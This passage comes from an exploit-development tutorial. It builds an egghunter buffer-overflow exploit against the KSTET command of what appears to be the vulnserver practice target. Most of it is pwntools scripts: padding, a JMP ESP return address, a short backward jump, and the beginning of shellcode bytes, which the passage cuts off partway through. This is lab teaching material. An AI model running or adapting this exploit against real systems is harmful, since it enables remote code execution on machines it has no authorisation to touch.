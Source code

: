 ![](https://cdn-images-1.medium.com/max/800/1*HN4n6T4BssBK5VjqkZhPmQ.png){: .align-center}

Upon checking, we did not exactly land on our first “`\xcc`”. This is because we forgot to consider the 4 bytes of `JMP ESP` during our payload creation.

Let’s reconstruct our payload.

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

payload = ""  
payload += "KSTET "  
payload += "A"*(70 - 50 + 2 + 4) # -50 for egghunter buffer, +4 for JMP ESP alignment  
payload += "\xcc"*32 # egghunter placeholder  
payload += "B"*(48 - 32 - 4) # 48 (buffer for egghunter - egghunter length - 4 bytes for JMP ESP)  
payload += p32(0x625011af) # JMP ESP  
payload += "\xeb\xce\x90\x90" # JMP -50

r.sendline(payload)  
r.close()
```

![](https://cdn-images-1.medium.com/max/800/1*79hNM321f8Jt3oG5zv8CvQ.png){: .align-center}

We successfully landed on the location that we want. Let’s replace this with our egghunter and construct our stage 1 payload.

Our `stage 1 payload` should include the `egg` and the `shellcode`. The payload structure should look like this.

```
payload = "arzy"*2 + NOP sled + shellcode
```

According to the [resource of egghunter above](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/), the shellcode must be prepended with the egg two times.

> You just have to remember :  
> – The marker needs to be unique (Usually you need to define the tag as 4 bytes inside the egg hunter, and 2 times (2 times right after each other, so 8 bytes) prepended to the actual shellcode.

Now, let’s generate our shellcode.

![](https://cdn-images-1.medium.com/max/800/1*daJhkYsONGy7m57q1CLHaw.png){: .align-center}

To check if the egghunter can really locate our shellcode, we can add a debugging instruction (`\xcc`) before the NOP sled.

Let’s now combine everything above in our payload script.

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

shellcode =  b""  
shellcode += b"\xbb\x0d\xb7\xd7\xc5\xdb\xd9\xd9\x74\x24\xf4"  
shellcode += b"\x58\x33\xc9\xb1\x52\x83\xe8\xfc\x31\x58\x0e"  
shellcode += b"\x03\x55\xb9\x35\x30\x99\x2d\x3b\xbb\x61\xae"  
shellcode += b"\x5c\x35\x84\x9f\x5c\x21\xcd\xb0\x6c\x21\x83"  
shellcode += b"\x3c\x06\x67\x37\xb6\x6a\xa0\x38\x7f\xc0\x96"  
```